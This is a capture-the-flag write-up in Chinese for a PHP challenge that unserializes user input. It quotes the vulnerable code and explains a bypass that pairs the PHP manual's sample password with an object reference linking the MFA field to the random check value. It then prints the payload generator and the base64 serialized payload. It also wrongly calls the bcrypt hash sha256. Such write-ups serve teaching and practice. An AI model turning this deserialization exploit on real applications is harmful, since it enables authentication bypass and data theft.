

web unserialize


### 1,  index.php提供了api接口，flag响应代码
```
   if (!empty($_GET) && isset($_GET['userdata']))
  {
    // prepare notification data structure
    $notification = new stdClass();

    // check credentials & MFA
    try
    {
      $user = new User(base64_decode($_GET['userdata']));
      if ($user->verify())
      {
        $notification->type = 'success';
        $notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
      }
```
User verfiy实现如下：

```
final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}


	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

### 2, bypass

password_verify 使用的sha256 使用php文档中的样例口令'$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq'
https://www.php.net/manual/en/function.password-verify.php

```
    $this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
```
 mfa  _correctValue 通过对象引用bypass


### 3, get the flag
```
   class userData{
    public $username = "D0loresH4ze";
    public $password = "rasmuslerdorf";  //https://www.php.net/manual/en/function.password-verify.php
    public $_correctValue=0;
    public $mfa;
    public function __construct(){
        $this->mfa = &$this->_correctValue;
    }
  }

  echo base64_encode(serialize(new userData()));
  // Tzo4OiJ1c2VyRGF0YSI6NDp7czo4OiJ1c2VybmFtZSI7czoxMToiRDBsb3Jlc0g0emUiO3M6ODoicGFzc3dvcmQiO3M6MTM6InJhc211c2xlcmRvcmYiO3M6MTM6Il9jb3JyZWN0VmFsdWUiO2k6MDtzOjM6Im1mYSI7Ujo0O30=
```

     
